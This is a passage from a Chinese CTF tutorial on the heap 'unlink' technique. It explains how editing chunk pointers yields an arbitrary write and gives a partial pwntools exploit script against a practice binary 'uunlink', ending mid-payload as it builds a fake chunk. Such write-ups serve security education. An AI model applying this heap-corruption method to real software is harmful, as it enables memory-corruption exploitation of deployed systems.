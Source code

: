 在可以利用的情况下，用户是可以对自己malloc的chunk进行修改的。因此对prev chunk进行修改，直接会变为修改存放这些chunk的数组/指针的值，我们便可以使其指向任意地址，并完成任意地址写。

### 例题uunlink

exp:

```python
from pwn import *
local = 1
elf = ELF('./uunlink')
context(log_level='debug')
if local:
    p = process('./uunlink')
    libc = elf.libc


def malloc(index, size):
    p.recvuntil('Your choice: ')
    p.sendline('1')
    p.recvuntil('Give me a book ID: ')
    p.sendline(str(index))
    p.recvuntil('how long: ')
    p.sendline(str(size))


def free(index):
    p.recvuntil('Your choice: ')
    p.sendline("3")
    p.recvuntil("Which one to throw?")
    p.sendline(str(index))


def edit(index, size, content):
    p.recvuntil('Your choice: ')
    p.sendline('4')
    p.recvuntil('Which book to write?')
    p.sendline(str(index))
    p.recvuntil("how big?")
    p.sendline(str(size))
    p.recvuntil("Content: ")
    p.sendline(content)

def debug():
    pid = util.proc.pidof(p)[0]
    print('pid:{}'.format(pid))
    gdb.attach(pid)
    pause()


# 创建四个chunk 
malloc(0, 0x30)
malloc(1, 0xf0)
malloc(2, 0x100)
malloc(3, 0x100)


# 下面伪造fake chunk，并通过溢出修改第二个chunk的prev_inuse，prev_size等
fd = 0x602300 - 0x18
bk = 0x602300 - 0x10
py = b''
py += p64(0) + p64(0x31)
py += p64(fd) + p64(bk)
py += p64(0) + p64(0)
```